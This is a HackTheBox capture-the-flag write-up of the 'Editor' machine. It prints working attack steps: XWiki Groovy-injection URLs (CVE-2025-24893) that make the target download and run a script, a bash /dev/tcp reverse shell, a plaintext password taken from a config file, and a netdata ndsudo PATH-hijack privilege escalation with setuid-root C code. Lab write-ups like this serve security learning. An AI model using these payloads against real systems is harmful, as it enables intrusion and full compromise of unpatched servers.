 ```yaml
---
title: "Editor HackTheBox Writeup"
date: 2025-08-31
tags: [ssh, HackTheBox, ndsudo]
categories: [HackTheBox]
---
```


# HackTheBox - Editor



![](/assets/images/hackthebox/Editor/Pasted image 20250821174033.png)


# Reccon

As usual we will start with the *Nmap*
```
nmap -sC -sV --min-rate 5000 -T5 -Pn -p- 10.10.11.80
```

![](images/hackthebox/Editor/Pasted image 20250821174634.png)

Looking at the result , we have 

-   22/tcp   open  ssh     OpenSSH
-  80/tcp   open  http    nginx
-  8080/tcp open  http    Jetty

Let add *editor.htb* in our hosts file
```
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```

# WebEnumeration

On port 80 we have

![](images/hackthebox/Editor/Pasted image 20250821175749.png)

And on port *8080*

![](images/hackthebox/Editor/Pasted image 20250821175938.png)

I saw the *Xwiki* version in the bottom , when i googled about it , i came acrros this CVE 2025-24893 

![](images/hackthebox/Editor/Pasted image 20250821191425.png)

and for the exploit , i got this [Exploit](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py) 
To get the shell , we first need to create *shell.sh*

```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/9001 0>&1
```

After creating a *shell.sh* start a python server in you local machine

```
python3 -m http.server 8000
```

Then in the browser Paste this encoded URL

 ```
  http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://10.10.14.205:8000/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

 ```

Then have a listener of your choice , mine is *net-cat*

```
rlwrap nc -lvnp 9001
```

Then execute your payload
```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

And **Boom** u got your shell

![](images/hackthebox/Editor/Pasted image 20250822194504.png)

In **/etc/passwd** u will find that there is a user called **oliver**

```
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

Then in the **WEB-INF** u will find **hibernate.cfg.xml**
In which u will find the password of **Oliver**

```
theEd1t0rTeam99
```

![](images/hackthebox/Editor/Pasted image 20250822200138.png)
```
ssh oliver@editor.htb
```

Getting into the user , we got our **user.txt** 

# Getting the Root

On  Localhost at port 19999 there is a service running called **netdata**

![](images/hackthebox/Editor/Pasted image 20250822201529.png)

So we did some Port forwarding

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

Paste this in your browser

```
http://localhost:19999/
```

![](images/hackthebox/Editor/Pasted image 20250822203154.png)

Clicking on the **Please update them** , we get the version **1.45.2**

![](images/hackthebox/Editor/Pasted image 20250822203407.png)

After digging the internet we get this [CVE-2024-32019](CVE-2024-32019)
**Oliver** has permission to run `ndsudo`:
1. Place an executable with a name that is on `ndsudo`’s list of commands (e.g. `nvme`) in a writable path
2. Set the `PATH` environment variable so that it contains this path
3. Run `ndsudo` with a command that will run the aforementioned executable
First we need to make an **exploit.c** binary , then compile it

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);       // Switch to root
    setgid(0);       // Switch group to root
    system("/bin/bash");  // Spawn a root shell
    return 0;
}
```

Then compile it

```
gcc -o nvme exploit.c
```

Then we need to upload the exploit.c in Oliver's **/tmp** directory , for that we will use python server

```
python3 -m http.server 8000
```

Then the following

```
curl http://<YOUR-IP>:8000/nvme -o nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

And **Boom** we got the root.txt

![](images/hackthebox/Editor/Pasted image 20250822211101.png)



---
